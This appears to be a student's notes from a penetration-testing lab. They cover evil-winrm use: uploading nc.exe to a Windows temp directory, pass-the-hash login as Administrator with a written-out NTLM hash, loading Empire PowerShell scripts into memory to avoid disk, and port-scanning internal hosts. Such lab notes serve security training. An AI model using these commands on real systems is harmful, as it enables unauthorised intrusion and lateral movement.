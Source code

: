 
Final Teaching : Anti-virus evasion techniques

Uploading a file and downloading a file is easy in evil-winrm
```
upload /usr/share/windows-resources/binaries/nc.exe c:\windows\tmp\nc.exe
```

```
dir c:\windows\tmp\nc.exe
```

```
evil-winrm -u Administrator -H '37db630168e5f82aafa8461e05c6bbd1' -i 10.200.87.150
```

![[Pasted image 20231231234006.png]]

Downloading
![[Pasted image 20231231234252.png]]
![[Pasted image 20231231234320.png]]

>[!Warning] 
>Note that in the real world using the `C:\Windows\Temp` directory is often a bad idea as it's flagged as a common location for hackers to upload tools. In this case we are using it to keep the box neat and tidy for other users.

There is one more great option that in evil-winrm (i.e. -s option)
Will simply specify a local directory containing PowerShell scripts -- these scripts will be made accessible for us to import directly into memory using our evil-winrm session. (i.e. they don't need to touch the disk at all)

```
evil-winrm -u USERNAME  -p PASSWORD -i IP -s /opt/scripts
```

Empire Scripts
```
cd /usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network
```
![[Pasted image 20231231234939.png]]

```
evil-winrm -u administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.101.150 -s /usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network
```

To initialize the script
```
Invoke-Portscan.ps1
```

```
Get-Help Invoke-Portscan
```
![[Pasted image 20231231235530.png]]

```
 Invoke-Portscan -Hosts 10.200.101.100 -TopPorts 50
```
![[Pasted image 20240101000245.png]]

